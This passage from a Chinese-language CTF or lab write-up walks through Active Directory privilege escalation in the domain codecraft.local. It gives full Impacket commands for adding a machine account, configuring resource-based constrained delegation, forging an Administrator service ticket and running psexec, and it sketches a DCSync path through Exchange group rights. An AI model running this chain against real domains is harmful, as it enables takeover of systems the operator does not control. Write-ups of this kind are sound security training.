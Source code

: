 因为 zhangfei 属于 Account Operators 组, 所以可以为域内任意非域控机器配置基于资源的约束委派 (RBCD)

先添加机器账户

```bash
proxychains addcomputer.py codecraft.local/zhangfei:'elizabeth' -dc-ip 172.22.37.13 -dc-host codecraft.local -computer-name 'TEST$' -computer-pass 'P@ssw0rd'
```

为 WIN-8087 配置 RBCD

```bash
proxychains rbcd.py codecraft.local/zhangfei:'elizabeth' -dc-ip 172.22.37.13 -action write -delegate-to 'WIN-8087$' -delegate-from 'TEST$'
```

申请 ST

```bash
getST.py -dc-ip 172.22.37.13 -spn cifs/WIN-8087.codecraft.local -impersonate Administrator codecraft.local/'TEST$':'P@ssw0rd'
```

psexec 拿 flag

```bash
export KRB5CCNAME=Administrator.ccache
psexec.py -no-pass -k WIN-8087.codecraft.local -dc-ip 172.22.37.13
```

后来发现 wangwei 对 WIN-8087 具有 GenericWrite 权限, 因此用 wangwei 也能打

![image-20231017210235162](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310172102402.png)

### 节点7 - DC01

当时没啥时间打域控了, 后来看了一下感觉好像也不是很难

zhangfei 可以 PSRemote 到 DC01, 其实也就是 WinRM

![image-20231017205149482](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310172051718.png)

Account Operators 对 Exchange Trusted Subsystem 组具有 GenericAll 权限

![image-20231017210445091](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310172104329.png)

Exchange Trusted Subsystem 属于 Exchange Windows Permissions 组, 后者有权限修改域内所有账户的 DACL

这个我们其实也很熟悉, 例如安装 Exchange Server 的机器就属于这个组, NTLM Relay 就有结合 Exchange 机器账户为域内某个用户写 DCSync 权限的打法

因此思路就是将某个机器账户加入 Exchange Trusted Subsystem 组, 然后通过这个机器账户的权限为某个用户或者该机器账户本身配置 DCSync, 最后通过 DCSync 拉取域管的 Hash, psexec 到域控拿到 flag

当然既然有了 WriteDacl (其实也就相当于有了 GenericWrite) 权限, 也可以为域控配置 RBCD, 方法和上面类似

### 节点8 - WIN-8083

跟 WIN-8087 类似, 为 WIN-8083 配置 RBCD, 不过听说是非预期 (

```bash
proxychains rbcd.py codecraft.local/zhangfei:'elizabeth' -dc-ip 172.22.37.13 -action write -delegate-to 'WIN-8083$' -delegate-from 'TEST$'

getST.py -dc-ip 172.22.37.13 -spn cifs/WIN-8083.codecraft.local -impersonate Administrator codecraft.local/'TEST$':'P@ssw0rd'

export KRB5CCNAME=Administrator.ccache
psexec.py -no-pass -k WIN-8083.codecraft.local -dc-ip 172.22.37.13
```

![image-20231017210525283](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310172105526.png)